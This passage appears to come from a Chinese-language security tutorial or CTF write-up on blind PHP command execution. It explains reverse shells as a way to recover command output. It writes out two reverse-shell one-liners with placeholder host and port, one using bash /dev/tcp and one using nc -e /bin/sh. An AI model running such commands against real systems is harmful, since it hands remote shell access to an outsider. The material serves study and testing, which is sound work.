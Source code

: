 ![img](assets/202304161654878.png)

## 1.反弹shell

遇到这种无回显的命令执行，很常见的一个思路是反弹shell，因为它虽然不会将命令执行的结果输出在屏幕上，但实际上这个命令它是执行了的，那我们就将shell反弹到自己服务器上，然后再执行命令肯定就可以看到回显了

一般来讲我们反弹shell都用的bash -i >& /dev/tcp/ip/port 0>&1这条命令，但这里我不知道哪里出了问题，在docker中可以成功反弹但放到php命令执行中就反弹不了了，所以说无奈之下我就只能使用nc进行反弹，但其实这是很不实用的，因为很多docker中都没有安装nc，这里就先演示一下用nc反弹，利用nc -e /bin/sh ip port进行反弹：

![img](assets/202304161654031.png)
